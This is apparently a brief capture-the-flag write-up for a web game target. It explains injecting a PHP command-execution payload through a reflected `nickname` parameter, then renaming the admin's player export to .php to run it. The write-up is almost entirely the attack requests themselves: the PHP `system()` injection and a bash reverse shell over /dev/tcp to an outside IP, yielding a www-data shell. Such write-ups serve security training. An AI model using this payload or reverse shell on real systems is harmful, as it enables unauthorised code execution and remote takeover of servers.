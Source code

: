 - when looking at the source code we found another GET param `nickname`
- we could potentially inject php in it, since its reflected in the administration panel when the admin exports the players 
- also we could change the extension to php to make it run the commands

## steps
- change the nickname to shell
```bash
GET /save_game.php?clicks=6&level=0&nickname=<%3fphp+system("cmd")%3b+%3f>
```

- export the players intercept the request change the extension to php and go to the exported file 
- do revshell from the cmd param
```bash
GET /exports/top_players_vbfipazz.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.49/9001+0>%261' 
```
- get shell as www-data

